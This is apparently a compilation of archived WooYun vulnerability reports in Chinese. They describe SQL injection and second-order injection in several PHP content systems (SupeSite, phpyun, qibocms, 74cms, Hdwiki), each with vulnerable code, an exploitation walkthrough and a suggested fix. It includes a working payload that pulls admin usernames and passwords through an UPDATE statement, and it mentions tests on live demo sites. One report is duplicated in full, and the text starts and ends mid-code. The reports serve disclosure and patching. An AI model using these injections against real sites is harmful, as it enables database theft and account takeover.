            if(!empty($tagarr['existsid']) && in_array($spacetag['tagid'], $tagarr['existsid'])) {

                $spacetagidarr[] = $spacetag['tagid'];

            } else {

                $deletetagidarr[] = $spacetag['tagid'];//赋值

            }

        }

        foreach ($tagarr['existsid'] as $etagid) {

            if(!empty($spacetagidarr) && in_array($etagid, $spacetagidarr)) {

            } else {

                $addtagidarr[] = $etagid;

            }

        }

        if(!empty($deletetagidarr)) { 

//这里要$deletetagidarr 不为空 

那么也就是要让

$query = $_SGLOBAL['db']->query('SELECT * FROM '.tname('spacetags').' WHERE itemid=\''.$itemid.'\' AND status=\''.$status.'\'')这个查询出来的有内容

            $_SGLOBAL['db']->query('DELETE FROM '.tname('spacetags').' WHERE itemid='.$itemid.' AND tagid IN ('.simplode($deletetagidarr).') AND status=\''.$status.'\'');//这里 delete 查询 WHERE itemid='.$itemid.'  没有被单引号引住。。 并且没 intval 导致注入

            $_SGLOBAL['db']->query('UPDATE '.tname('tags').' SET  spacenewsnum=spacenewsnum-1 WHERE tagid IN ('.simplode($deletetagidarr).')');

        } 
```

首先我们注册一个会员 然后投稿


投稿 这里 tag 随便写一个

+--------+-------+------------+------+--------+

| itemid | tagid | dateline | type | status |

+--------+-------+------------+------+--------+

| 3 | 1 | 1412680532 | news | 0 |

| 4 | 2 | 1412680930 | news | 0 |

数据库里也就创建了。。

这里的 itemid 在**.**.**.**/dan/supesite/cp.php?ac=news&op=view&itemid=4

地址中就能看到为 4

然后在$query = $_SGLOBAL['db']->query('SELECT * FROM '.tname('spacetags').' WHERE itemid=\''.$itemid.'\' AND status=\''.$status.'\'');

这里查询


这里查询 后面虽然跟了一些字符 提示 warning 但是还是能查询出来。

$_SGLOBAL['db']->query('DELETE FROM '.tname('spacetags').' WHERE itemid='.$itemid.' AND tagid IN ('.simplode($deletetagidarr).') AND status=\''.$status.'\'');

然后就进来 delete 里面没单引号 且无 intval 导致注入。

投稿的时候抓包一下


成功出数据

## 漏洞证明


## 修复方案

intval 或者 单引号上把

# WooYun-2014-88872：phpyun v3.2 (20141226) 两处注入。

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-088872`](http://www.wooyun.org/bugs/wooyun-2014-088872)

## 简要描述

最近更新日期（2014-12-26） 又更新了, 麻烦别再给 5rank 了 20 走起可好。 一处是新的 一处算是绕过补丁了。 之前还有一两个没打补丁哦 加快速度把。

## 详细说明

第一处 新发现的在兑换奖品的时候

在 model/redeem.class.php 中

```php
function dh_action(){

        $this->public_action();

        if(!$this->uid && !$this->username)

        {

             $this->obj->ACT_layer_msg("您还没有登录，请先登录！",8,$_SERVER['HTTP_REFERER']);

        }

        if($_POST['submit']){

            if(!$_POST['password']){

                $this->obj->ACT_layer_msg("密码不能为空！",8,$_SERVER['HTTP_REFERER']);

            }

            if(!$_POST['linkman'] || !$_POST['linktel'] ){

                $this->obj->ACT_layer_msg("联系人或联系电话不能为空！",8,$_SERVER['HTTP_REFERER']);

            }

            $info=$this->obj->DB_select_once("member","`uid`='".$this->uid."'","`password`,`salt`");

            $passwrod=md5(md5($_POST['password']).$info['salt']);

            if($info['password']!=$passwrod){

                $this->obj->ACT_layer_msg("密码不正确！",8,$_SERVER['HTTP_REFERER']);

            }

            if(!$this->uid && !$this->username){

                 $this->obj->ACT_layer_msg("您还没有登录，请先登录！",8,$_SERVER['HTTP_REFERER']);

            }else{

                if($_POST['num']<1){

                    $this->obj->ACT_layer_msg("请填写正确的数量！",8,$_SERVER['HTTP_REFERER']);

                }else{

                    if($_COOKIE['usertype']=="1"){

                        $table="member_statis";

                    }elseif($_COOKIE['usertype']=="2"){

                        $table="company_statis";

                    }elseif($_COOKIE['usertype']=="3"){

                        $table="lt_statis";

                    }elseif($_COOKIE['usertype']=="4"){

                        $table="px_train_statis";

                    }

                    $info=$this->obj->DB_select_once($table,"`uid`='".$this->uid."'","integral");

                    $gift=$this->obj->DB_select_once("reward","`id`='".(int)$_GET['id']."'");

                    if($_POST['num']>$gift['stock']){

                        $this->obj->ACT_layer_msg("已超出库存数量！",8,$_SERVER['HTTP_REFERER']);

                    }else{

                        if($gift['restriction']!="0"&&$_POST['num']>$gift['restriction']){

                            $this->obj->ACT_layer_msg("已超出限购数量！",8,$_SERVER['HTTP_REFERER']);

                        }else{

                            $integral=$gift['integral']*$_POST['num'];

                            if($info['integral']<$integral){

                                $this->obj->ACT_layer_msg("您的积分不足！",8,$_SERVER['HTTP_REFERER']);

                            }else{

                                $this->obj->company_invtal($this->uid,$integral,false,"积分兑换",true,2,'integral',24);

                                $value.="`uid`='".$this->uid."',";

                                $value.="`username`='".$this->username."',";

                                $value.="`usertype`='".$_COOKIE['usertype']."',";

                                $value.="`name`='".$gift['name']."',";

                                $value.="`gid`='".$gift['id']."',";

                                $value.="`linkman`='".$_POST['linkman']."',";

                                $value.="`linktel`='".$_POST['linktel']."',";

                                $value.="`body`='".$_POST['body']."',";

                                $value.="`integral`='".$integral."',";

                                $value.="`num`='".$_POST['num']."',";//这里被单引号了。

                                $value.="`ctime`='".time()."'";

                                $this->obj->DB_insert_once("change",$value);

                                $this->obj->DB_update_all("reward","`stock`=`stock`-".$_POST['num']."","`id`='".(int)$_GET['id']."'");//注意看这里 `stock`-".$_POST['num'] 直接把 post 来的带入到了查询当中 没有被单引号 再来看 DB_update_all

                                $this->obj->ACT_layer_msg("兑换成功，请等待管理员审核！",9,$_SERVER['HTTP_REFERER']);

                            }

                        }

                    }

                }

              }

        } 
```

```php
function DB_update_all($tablename, $value, $where = 1){

        $SQL = "UPDATE `" . $this->def . $tablename . "` SET $value WHERE $where";

         $this->db->query("set sql_mode=''");

        $return=$this->db->query($SQL);

        return $return;

    } 
```

查询查询

但是我们来看看$_POST['num'] 之前有啥处理没。

可以看到前面有三个比较。

```php
if($_POST['num']<1){ //这里比较是否小于 1 php 弱语言 像 1asdxx 都能过。

                    $this->obj->ACT_layer_msg("请填写正确的数量！",8,$_SERVER['HTTP_REFERER']);

                }else{

                    if($_COOKIE['usertype']=="1"){

                        $table="member_statis";

                    }elseif($_COOKIE['usertype']=="2"){

                        $table="company_statis";

                    }elseif($_COOKIE['usertype']=="3"){

                        $table="lt_statis";

                    }elseif($_COOKIE['usertype']=="4"){

                        $table="px_train_statis";

                    }

                    $info=$this->obj->DB_select_once($table,"`uid`='".$this->uid."'","integral");

                    $gift=$this->obj->DB_select_once("reward","`id`='".(int)$_GET['id']."'");

                    if($_POST['num']>$gift['stock']){、//这里第二处比较 这里是把商品查询出来 看看他的库存。 然后与传递过来的 num 比较 所以这里我们 num 最好就为 1 然后这里我先输出胰腺癌。 var_dump($_POST['num']>$gift['stock']);exit;

这里的库存为 100\.  发现如果我传递的 num 为 1asd 之类的时候 竟然 true 了。。 那么就失败了, 然后再继续测试 当传递的 num 为 1+asd 就返回 false 意味着成功了。 那么这里我们就添加一个加号。

                        $this->obj->ACT_layer_msg("已超出库存数量！",8,$_SERVER['HTTP_REFERER']);

                    }else{

                        if($gift['restriction']!="0"&&$_POST['num']>$gift['restriction']){

                            $this->obj->ACT_layer_msg("已超出限购数量！",8,$_SERVER['HTTP_REFERER']);

                        }else{ 
```


那么我们就能绕过这个判断了。


UPDATE `phpyun_reward` SET `stock`=`stock`-1+1,name=(select concat(username,0x23,password) from php_admin_user) WHERE `id`='1'

此时执行的语句


这里随便说一下 补丁解决泄漏 key 的那个方法太渣了把。。

很轻松的就绕过去了。 这里不多说， 简直。。

第二处在 api\alipay\alipayto.php

```php
require_once(dirname(dirname(dirname(__FILE__)))."/data/db.config.php");

require_once(dirname(dirname(dirname(__FILE__)))."/data/db.safety.php");//添加了过滤的进来。

require_once(dirname(dirname(dirname(__FILE__)))."/plus/config.php");

require_once(dirname(dirname(dirname(__FILE__)))."/include/mysql.class.php");

$db = new mysql($db_config['dbhost'], $db_config['dbuser'], $db_config['dbpass'], $db_config['dbname'], ALL_PS, $db_config['charset']);

if(!is_numeric($_POST['dingdan'])){die;}

$_COOKIE['uid']=(int)$_COOKIE['uid'];

$_POST['is_invoice']=(int)$_POST['is_invoice'];

$_POST['balance']=(int)$_POST['balance']; 

$member_sql=$db->query("SELECT * FROM `".$db_config["def"]."member` WHERE `uid`='".$_COOKIE['uid']."' limit 1");

$member=mysql_fetch_array($member_sql);  

if($member['username'] != $_COOKIE['username'] || $member['usertype'] != $_COOKIE['usertype']||md5($member['username'].$member['password'].$member['salt'])!=$_COOKIE['shell']){  

    echo '登录信息验证错误，请重新登录！';die;

}  

$sql=$db->query("select * from `".$db_config["def"]."company_order` where `order_id`='".$_POST['dingdan']."' AND `order_price`>=0");

$row=mysql_fetch_array($sql);

if(!$row['uid'] || $row['uid']!=$_COOKIE['uid'])

{

    die;

}

if((int)$_POST['is_invoice']=='1'&&$config["sy_com_invoice"]){

    $invoice_title=",`is_invoice`='".$_POST['is_invoice']."'";

    if($_POST['linkway']=='1'){

        $com_sql=$db->query("select `linkman`,`linktel`,`address` from `".$db_config["def"]."company` where `uid`='".$_COOKIE['uid']."'");//查询余额

        $company=mysql_fetch_array($com_sql);   

        $link=",'".$company['linkman']."','".$company['linktel']."','".$company['address']."'";

        $up_record=",`link_man`='".$company['linkman']."',`link_moblie`='".$company['linktel']."',`address`='".$company['address']."'";

    }else{  

        $link=",'".$_POST['link_man']."','".$_POST['link_moblie']."','".$_POST['address']."'"; 

        $up_record=",`link_man`='".$_POST['link_man']."',`link_moblie`='".$_POST['link_moblie']."',`address`='".$_POST['address']."'";

    }

    $record_sql=$db->query("select `id` from `".$db_config["def"]."invoice_record` where `order_id`='".$_POST['dingdan']."' and `uid`='".$_COOKIE['uid']."'");

    $record=mysql_fetch_array($record_sql);  

    if($record['id']){

        $upr_sql=$db->query("update `".$db_config["def"]."invoice_record` set `title`='".trim($_POST['invoice_title'])."',`status`='0',`addtime`='".time()."'".$up_record." where `id`='".$record['id']."'");

        mysql_fetch_array($upr_sql); 
```

可以看到 data/db.safety.php 把过滤文件添加进来了。

那么这里的$_POST 我们就不能引入单引号了。

但是。。

```php
if($_POST['linkway']=='1'){

        $com_sql=$db->query("select `linkman`,`linktel`,`address` from `".$db_config["def"]."company` where `uid`='".$_COOKIE['uid']."'");//查询余额

        $company=mysql_fetch_array($com_sql);   

        $link=",'".$company['linkman']."','".$company['linktel']."','".$company['address']."'";//当 linkway 为 1 的时候 这里拼接的是出库来的 。。

        $up_record=",`link_man`='".$company['linkman']."',`link_moblie`='".$company['linktel']."',`address`='".$company['address']."'";

    }else{  

        $link=",'".$_POST['link_man']."','".$_POST['link_moblie']."','".$_POST['address']."'"; 

        $up_record=",`link_man`='".$_POST['link_man']."',`link_moblie`='".$_POST['link_moblie']."',`address`='".$_POST['address']."'";

    } 
```

首先编辑自己的企业信息 把 safekey 加进去。


这里我直接把语句数出来了。


## 漏洞证明


## 修复方案

第一个用 pylode

第二个对出库的 addslashes 一次。

# WooYun-2014-88872：phpyun v3.2 (20141226) 两处注入。

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-088872`](http://www.wooyun.org/bugs/wooyun-2014-088872)

## 简要描述

最近更新日期（2014-12-26） 又更新了, 麻烦别再给 5rank 了 20 走起可好。 一处是新的 一处算是绕过补丁了。 之前还有一两个没打补丁哦 加快速度把。

## 详细说明

第一处 新发现的在兑换奖品的时候

在 model/redeem.class.php 中

```php
function dh_action(){

        $this->public_action();

        if(!$this->uid && !$this->username)

        {

             $this->obj->ACT_layer_msg("您还没有登录，请先登录！",8,$_SERVER['HTTP_REFERER']);

        }

        if($_POST['submit']){

            if(!$_POST['password']){

                $this->obj->ACT_layer_msg("密码不能为空！",8,$_SERVER['HTTP_REFERER']);

            }

            if(!$_POST['linkman'] || !$_POST['linktel'] ){

                $this->obj->ACT_layer_msg("联系人或联系电话不能为空！",8,$_SERVER['HTTP_REFERER']);

            }

            $info=$this->obj->DB_select_once("member","`uid`='".$this->uid."'","`password`,`salt`");

            $passwrod=md5(md5($_POST['password']).$info['salt']);

            if($info['password']!=$passwrod){

                $this->obj->ACT_layer_msg("密码不正确！",8,$_SERVER['HTTP_REFERER']);

            }

            if(!$this->uid && !$this->username){

                 $this->obj->ACT_layer_msg("您还没有登录，请先登录！",8,$_SERVER['HTTP_REFERER']);

            }else{

                if($_POST['num']<1){

                    $this->obj->ACT_layer_msg("请填写正确的数量！",8,$_SERVER['HTTP_REFERER']);

                }else{

                    if($_COOKIE['usertype']=="1"){

                        $table="member_statis";

                    }elseif($_COOKIE['usertype']=="2"){

                        $table="company_statis";

                    }elseif($_COOKIE['usertype']=="3"){

                        $table="lt_statis";

                    }elseif($_COOKIE['usertype']=="4"){

                        $table="px_train_statis";

                    }

                    $info=$this->obj->DB_select_once($table,"`uid`='".$this->uid."'","integral");

                    $gift=$this->obj->DB_select_once("reward","`id`='".(int)$_GET['id']."'");

                    if($_POST['num']>$gift['stock']){

                        $this->obj->ACT_layer_msg("已超出库存数量！",8,$_SERVER['HTTP_REFERER']);

                    }else{

                        if($gift['restriction']!="0"&&$_POST['num']>$gift['restriction']){

                            $this->obj->ACT_layer_msg("已超出限购数量！",8,$_SERVER['HTTP_REFERER']);

                        }else{

                            $integral=$gift['integral']*$_POST['num'];

                            if($info['integral']<$integral){

                                $this->obj->ACT_layer_msg("您的积分不足！",8,$_SERVER['HTTP_REFERER']);

                            }else{

                                $this->obj->company_invtal($this->uid,$integral,false,"积分兑换",true,2,'integral',24);

                                $value.="`uid`='".$this->uid."',";

                                $value.="`username`='".$this->username."',";

                                $value.="`usertype`='".$_COOKIE['usertype']."',";

                                $value.="`name`='".$gift['name']."',";

                                $value.="`gid`='".$gift['id']."',";

                                $value.="`linkman`='".$_POST['linkman']."',";

                                $value.="`linktel`='".$_POST['linktel']."',";

                                $value.="`body`='".$_POST['body']."',";

                                $value.="`integral`='".$integral."',";

                                $value.="`num`='".$_POST['num']."',";//这里被单引号了。

                                $value.="`ctime`='".time()."'";

                                $this->obj->DB_insert_once("change",$value);

                                $this->obj->DB_update_all("reward","`stock`=`stock`-".$_POST['num']."","`id`='".(int)$_GET['id']."'");//注意看这里 `stock`-".$_POST['num'] 直接把 post 来的带入到了查询当中 没有被单引号 再来看 DB_update_all

                                $this->obj->ACT_layer_msg("兑换成功，请等待管理员审核！",9,$_SERVER['HTTP_REFERER']);

                            }

                        }

                    }

                }

              }

        } 
```

```php
function DB_update_all($tablename, $value, $where = 1){

        $SQL = "UPDATE `" . $this->def . $tablename . "` SET $value WHERE $where";

         $this->db->query("set sql_mode=''");

        $return=$this->db->query($SQL);

        return $return;

    } 
```

查询查询

但是我们来看看$_POST['num'] 之前有啥处理没。

可以看到前面有三个比较。

```php
if($_POST['num']<1){ //这里比较是否小于 1 php 弱语言 像 1asdxx 都能过。

                    $this->obj->ACT_layer_msg("请填写正确的数量！",8,$_SERVER['HTTP_REFERER']);

                }else{

                    if($_COOKIE['usertype']=="1"){

                        $table="member_statis";

                    }elseif($_COOKIE['usertype']=="2"){

                        $table="company_statis";

                    }elseif($_COOKIE['usertype']=="3"){

                        $table="lt_statis";

                    }elseif($_COOKIE['usertype']=="4"){

                        $table="px_train_statis";

                    }

                    $info=$this->obj->DB_select_once($table,"`uid`='".$this->uid."'","integral");

                    $gift=$this->obj->DB_select_once("reward","`id`='".(int)$_GET['id']."'");

                    if($_POST['num']>$gift['stock']){、//这里第二处比较 这里是把商品查询出来 看看他的库存。 然后与传递过来的 num 比较 所以这里我们 num 最好就为 1 然后这里我先输出胰腺癌。 var_dump($_POST['num']>$gift['stock']);exit;

这里的库存为 100\.  发现如果我传递的 num 为 1asd 之类的时候 竟然 true 了。。 那么就失败了, 然后再继续测试 当传递的 num 为 1+asd 就返回 false 意味着成功了。 那么这里我们就添加一个加号。

                        $this->obj->ACT_layer_msg("已超出库存数量！",8,$_SERVER['HTTP_REFERER']);

                    }else{

                        if($gift['restriction']!="0"&&$_POST['num']>$gift['restriction']){

                            $this->obj->ACT_layer_msg("已超出限购数量！",8,$_SERVER['HTTP_REFERER']);

                        }else{ 
```


那么我们就能绕过这个判断了。


UPDATE `phpyun_reward` SET `stock`=`stock`-1+1,name=(select concat(username,0x23,password) from php_admin_user) WHERE `id`='1'

此时执行的语句


这里随便说一下 补丁解决泄漏 key 的那个方法太渣了把。。

很轻松的就绕过去了。 这里不多说， 简直。。

第二处在 api\alipay\alipayto.php

```php
require_once(dirname(dirname(dirname(__FILE__)))."/data/db.config.php");

require_once(dirname(dirname(dirname(__FILE__)))."/data/db.safety.php");//添加了过滤的进来。

require_once(dirname(dirname(dirname(__FILE__)))."/plus/config.php");

require_once(dirname(dirname(dirname(__FILE__)))."/include/mysql.class.php");

$db = new mysql($db_config['dbhost'], $db_config['dbuser'], $db_config['dbpass'], $db_config['dbname'], ALL_PS, $db_config['charset']);

if(!is_numeric($_POST['dingdan'])){die;}

$_COOKIE['uid']=(int)$_COOKIE['uid'];

$_POST['is_invoice']=(int)$_POST['is_invoice'];

$_POST['balance']=(int)$_POST['balance']; 

$member_sql=$db->query("SELECT * FROM `".$db_config["def"]."member` WHERE `uid`='".$_COOKIE['uid']."' limit 1");

$member=mysql_fetch_array($member_sql);  

if($member['username'] != $_COOKIE['username'] || $member['usertype'] != $_COOKIE['usertype']||md5($member['username'].$member['password'].$member['salt'])!=$_COOKIE['shell']){  

    echo '登录信息验证错误，请重新登录！';die;

}  

$sql=$db->query("select * from `".$db_config["def"]."company_order` where `order_id`='".$_POST['dingdan']."' AND `order_price`>=0");

$row=mysql_fetch_array($sql);

if(!$row['uid'] || $row['uid']!=$_COOKIE['uid'])

{

    die;

}

if((int)$_POST['is_invoice']=='1'&&$config["sy_com_invoice"]){

    $invoice_title=",`is_invoice`='".$_POST['is_invoice']."'";

    if($_POST['linkway']=='1'){

        $com_sql=$db->query("select `linkman`,`linktel`,`address` from `".$db_config["def"]."company` where `uid`='".$_COOKIE['uid']."'");//查询余额

        $company=mysql_fetch_array($com_sql);   

        $link=",'".$company['linkman']."','".$company['linktel']."','".$company['address']."'";

        $up_record=",`link_man`='".$company['linkman']."',`link_moblie`='".$company['linktel']."',`address`='".$company['address']."'";

    }else{  

        $link=",'".$_POST['link_man']."','".$_POST['link_moblie']."','".$_POST['address']."'"; 

        $up_record=",`link_man`='".$_POST['link_man']."',`link_moblie`='".$_POST['link_moblie']."',`address`='".$_POST['address']."'";

    }

    $record_sql=$db->query("select `id` from `".$db_config["def"]."invoice_record` where `order_id`='".$_POST['dingdan']."' and `uid`='".$_COOKIE['uid']."'");

    $record=mysql_fetch_array($record_sql);  

    if($record['id']){

        $upr_sql=$db->query("update `".$db_config["def"]."invoice_record` set `title`='".trim($_POST['invoice_title'])."',`status`='0',`addtime`='".time()."'".$up_record." where `id`='".$record['id']."'");

        mysql_fetch_array($upr_sql); 
```

可以看到 data/db.safety.php 把过滤文件添加进来了。

那么这里的$_POST 我们就不能引入单引号了。

但是。。

```php
if($_POST['linkway']=='1'){

        $com_sql=$db->query("select `linkman`,`linktel`,`address` from `".$db_config["def"]."company` where `uid`='".$_COOKIE['uid']."'");//查询余额

        $company=mysql_fetch_array($com_sql);   

        $link=",'".$company['linkman']."','".$company['linktel']."','".$company['address']."'";//当 linkway 为 1 的时候 这里拼接的是出库来的 。。

        $up_record=",`link_man`='".$company['linkman']."',`link_moblie`='".$company['linktel']."',`address`='".$company['address']."'";

    }else{  

        $link=",'".$_POST['link_man']."','".$_POST['link_moblie']."','".$_POST['address']."'"; 

        $up_record=",`link_man`='".$_POST['link_man']."',`link_moblie`='".$_POST['link_moblie']."',`address`='".$_POST['address']."'";

    } 
```

首先编辑自己的企业信息 把 safekey 加进去。


这里我直接把语句数出来了。


## 漏洞证明


## 修复方案

第一个用 pylode

第二个对出库的 addslashes 一次。

# WooYun-2014-80877：qibocms 地方门户系统 二次注入#5(demo 测试)

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-080877`](http://www.wooyun.org/bugs/wooyun-2014-080877)

## 简要描述

二次注入。

## 详细说明

在 hy/member/homepage_ctrl/pic_fm.php 中

```php
if(count($pids)<1) showerr("请选择一张图片");

if(!$psid) showerr("请指定一个图集");

foreach($pids as $pid){

    if($pid){

        $rt=$db->get_one("SELECT url FROM {$_pre}pic WHERE pid='$pid'");

        $db->query("UPDATE {$_pre}picsort SET faceurl='$rt[url]' WHERE psid='$psid' AND uid='$uid'");//这里把出库的带入到了 update 查询当中 来找找入库的

        break;

    }

} 
```

入库的地方挺多 随便找一处把

在 hy/member/homepage_ctrl/pic_upload.php 中

```php
foreach($photoDB[url] AS $key=>$value){

        if(!eregi("\.(gif|jpg|jpeg|png|bmp)$",$value)){

            delete_attachment($uid,tempdir($value));//限定结尾必须 jpg 啥的

            continue;

        }

        $picpath = "homepage/pic/".ceil($uid/1000)."/";

        $picurl = $picpath.basename($value);//basename 不影响

        move_attachment($uid,tempdir($value),$picpath);    //图片转移目录与加水印

        if(!is_file(ROOT_PATH."$webdb[updir]/$picurl")){

            $picurl=$value;

        }

        $Newpicpath=ROOT_PATH."$webdb[updir]/{$picurl}.gif";

        gdpic(ROOT_PATH."$webdb[updir]/$picurl",$Newpicpath,150,150);

        if(!is_file($Newpicpath)){

            copy(ROOT_PATH."$webdb[updir]/{$picurl}",$Newpicpath);

        }

        $title = filtrate($photoDB[name][$key]);

        $title = get_word($title,32);

        //echo "INSERT INTO `{$_pre}pic` (`psid` , `uid` , `username` ,  `title` , `url` , `level` , `yz` , `posttime` , `isfm` , `orderlist`  ) VALUES ('$psid', '$uid', '$lfjid', '$title', '$picurl', '0', '1', '$timestamp', '0', '0')";exit;

        $db->query("INSERT INTO `{$_pre}pic` (`psid` , `uid` , `username` ,  `title` , `url` , `level` , `yz` , `posttime` , `isfm` , `orderlist`  ) VALUES ('$psid', '$uid', '$lfjid', '$title', '$picurl', '0', '1', '$timestamp', '0', '0')"); //这里把$picurl 带入到了 insert 当中 入库

        $ck++; 
```

首先入库一个。


转义入库。 然后


出库 导致注入。

构造一下。


转义入库 这里我把语句输出一下。

然后 出库。

/hy/member/homepage_ctrl.php?atn=pic_fm&pids[]=45&psid=3313


出数据。

demo 测试:


入库

出库


构造一下 可以看 update 哪个 column 出数据的。

## 漏洞证明


## 修复方案

出库转义。

# WooYun-2014-68362：74cms (20140709) 二枚二次注入

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-068362`](http://www.wooyun.org/bugs/wooyun-2014-068362)

## 简要描述

不好好的通过修改造成漏洞的代码 而是通过修改过滤函数。 现在的过滤函数, 虽然我是绕不过去了。 但是还是能找到几处能出数据的。 之前未通过,这次两个打个包来。

P.S:这很不好意思 之前测试 demo 的时候 因为有个是个 update 的点 忘记加 where 限制条件了 导致给某处全部都出数据了。。。。。 不只应该修改过滤函数,而且也应该在造成漏洞的代码好好的修复一下。

## 详细说明

第一枚。 第一枚就不分析代码了。

首先注册一个企业会员 然后创建企业


单引号会被转义 然后转义入库。

找找出库的地方。

然后创建好企业后 发布招聘 如下。


点击发布后 可以看到报错了。 这里刚才的企业名出库了 而且带入到了查询当中。

这里稍微构造下还是能出数据。 这个咋出数据就不多说了, 第二处再来说说出数据。

* * *

第二处

与上个不同的是 这个是注册一个个人会员

然后发布简历。

来看代码

在 user/personal/personal_resume.php 中

```php
elseif ($act=='make4_save')

{

    $resume_education=get_resume_education($_SESSION['uid'],$_REQUEST['pid']);

    if (count($resume_education)>=6) showmsg('教育经历不能超过 6 条！',1,$link);

    $setsqlarr['uid']=intval($_SESSION['uid']);

    $setsqlarr['pid']=intval($_REQUEST['pid']);

    if ($setsqlarr['uid']==0 || $setsqlarr['pid']==0 ) showmsg('参数错误！',1);

    $setsqlarr['start']=trim($_POST['start'])?$_POST['start']:showmsg('请填写开始时间！',1,$link);

    $setsqlarr['endtime']=trim($_POST['endtime'])?$_POST['endtime']:showmsg('请填写结束时间！',1,$link);

    $setsqlarr['school']=trim($_POST['school'])?$_POST['school']:showmsg('请填写学校名称！',1,$link);

    $setsqlarr['speciality']=trim($_POST['speciality'])?$_POST['speciality']:showmsg('请填写专业名称！',1,$link);

    $setsqlarr['education']=trim($_POST['education'])?$_POST['education']:showmsg('请选择获得学历！',1,$link);

    $setsqlarr['education_cn']=trim($_POST['education_cn'])?$_POST['education_cn']:showmsg('请选择获得学历！',1,$link);

        if (inserttable(table('resume_education'),$setsqlarr))

        {

            check_resume($_SESSION['uid'],intval($_REQUEST['pid'])); 
```

inserttable(table('resume_education')

这里把 post 来的数据带入到了 insert 当中 入库。

这里我们提交一个单引号 然后带入 insert 的时候虽然是转义

但是入库后会消除转义符。

然后继续看 check_resume

```php
function check_resume($uid,$pid)

{

    global $db,$timestamp,$_CFG;

    $uid=intval($uid);

    $pid=intval($pid);

    $percent=0;

    $resume_basic=get_resume_basic($uid,$pid);

    $resume_intention=$resume_basic['intention_jobs'];

    $resume_specialty=$resume_basic['specialty'];

    $resume_education=get_resume_education($uid,$pid);

    if (!empty($resume_basic))$percent=$percent+15;

    if (!empty($resume_intention))$percent=$percent+15;

    if (!empty($resume_specialty))$percent=$percent+15;

    if (!empty($resume_education))$percent=$percent+15;

    if ($resume_basic['photo_img'] && $resume_basic['photo_audit']=="1"  && $resume_basic['photo_display']=="1")

    {

    $setsqlarr['photo']=1;

    }

    else

    {

    $setsqlarr['photo']=0;

    }

    if ($percent<60)

    {

        $setsqlarr['complete_percent']=$percent;

        $setsqlarr['complete']=2;

    }

    else

    {

        $resume_work=get_resume_work($uid,$pid);

        $resume_training=get_resume_training($uid,$pid);

        $resume_photo=$resume_basic['photo_img'];

        if (!empty($resume_work))$percent=$percent+13;

        if (!empty($resume_training))$percent=$percent+13;

        if (!empty($resume_photo))$percent=$percent+14;

        $setsqlarr['complete']=1;

        $setsqlarr['complete_percent']=$percent;

        require_once(QISHI_ROOT_PATH.'include/splitword.class.php');

        $sp = new SPWord();

        $setsqlarr['key']=$resume_basic['intention_jobs'].$resume_basic['recentjobs'].$resume_basic['specialty'];        

        $setsqlarr['key']="{$resume_basic['fullname']} ".$sp->extracttag($setsqlarr['key']);

        $setsqlarr['key']=str_replace(","," ",$resume_basic['intention_jobs'])." {$setsqlarr['key']} {$resume_basic['education_cn']}";

        $setsqlarr['key']=$sp->pad($setsqlarr['key']);    

        if (!empty($resume_education))

        {

            foreach($resume_education as $li)

            {

            $setsqlarr['key']="{$li['school']} {$setsqlarr['key']} {$li['speciality']}";

            }

        }

        $setsqlarr['refreshtime']=$timestamp;

    }

    updatetable(table('resume'),$setsqlarr,"uid='{$uid}' AND id='{$pid}'");

    updatetable(table('resume_tmp'),$setsqlarr,"uid='{$uid}' AND id='{$pid}'"); 
```

$resume_education=get_resume_education($uid,$pid);

这里把刚才入库的查询了出来 所以单引号就出来了。 继续看。

```php
$setsqlarr['key']=$resume_basic['intention_jobs'].$resume_basic['recentjobs'].$resume_basic['specialty'];        

        $setsqlarr['key']="{$resume_basic['fullname']} ".$sp->extracttag($setsqlarr['key']);

        $setsqlarr['key']=str_replace(","," ",$resume_basic['intention_jobs'])." {$setsqlarr['key']} {$resume_basic['education_cn']}";

        $setsqlarr['key']=$sp->pad($setsqlarr['key']);    

        if (!empty($resume_education))

        {

            foreach($resume_education as $li)

            {

            $setsqlarr['key']="{$li['school']} {$setsqlarr['key']} {$li['speciality']}";

            }

        }

        $setsqlarr['refreshtime']=$timestamp;

    }

    updatetable(table('resume'),$setsqlarr,"uid='{$uid}' AND id='{$pid}'");

    updatetable(table('resume_tmp'),$setsqlarr,"uid='{$uid}' AND id='{$pid}'"); 
```

然后把出库来的给一数组 然后带入到了 update 中。

造成了注入。 而且这个 update 可以控制的点是在 set 位置的

所以可以是我们想 update 这 table 里面的什么就 update 什么。


报错了 稍微构造一下。

这里我们把 address updata 成要出的数据


成功了对关键字的过滤出数据。

测试了一下 demo 也成功


[`**.**.**.**/resume/resume-show-6271.htm`](http://**.**.**.**/resume/resume-show-6271.htm)

## 漏洞证明

见上面。

## 修复方案

真的应该好好的修改代码 而不是光修改过滤函数。

对于这种二次注入 由于入库的时候只会调用一次 stripcslashes

74cms 做了全局转义的 如果再转义一次 那么就算入库也会含有转义符了。 自然出库也有了。

或者就是在出库之后再 addslashes 一次 都行。

# WooYun-2014-67424：Hdwiki 最新版二次注入一枚

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-067424`](http://www.wooyun.org/bugs/wooyun-2014-067424)

## 简要描述

上 Hdwiki 官网 发现更新日期一直都没变。 还以为一直都没更新了, 结果今天下载一个下来看看。 发现之前发的洞竟然都补掉了。

非盲注 直接出数据。

ps. 更新程序了应该还是把日期更新了一下 要不别人会一直以为没更新的。

## 详细说明

在 user/pms.php 中

```php
function doblacklist(){

        if(isset($this->post['blacklist'])){

            $blacklist = htmlspecialchars(string::stripscript($this->post['blacklist']));

            if(empty($blacklist)){

                $result = $_ENV['pms']->remove_blacklist($this->user['uid']);

            }else{

                $result = $_ENV['pms']->add_blacklist($blacklist,$this->user['uid']);

            } 
```

add_blacklist($blacklist,$this->user['uid']);

$blacklist = htmlspecialchars(string::stripscript($this->post['blacklist'])

post 都会转义的。 来看看这函数 stripscript

```php
function stripscript($string){

        $pregfind=array("/<script.*>.*<\/script>/siU",'/on(error|mousewheel|mouseover|click|load|onload|submit|focus|blur|start)="[^"]*"/i');

        $pregreplace=array('','',);

        $string=preg_replace($pregfind,$pregreplace,$string);

        return $string;

    }

} 
```

这是过滤了一些 xss 常用的。

```php
function add_blacklist($blacklist,$uid){

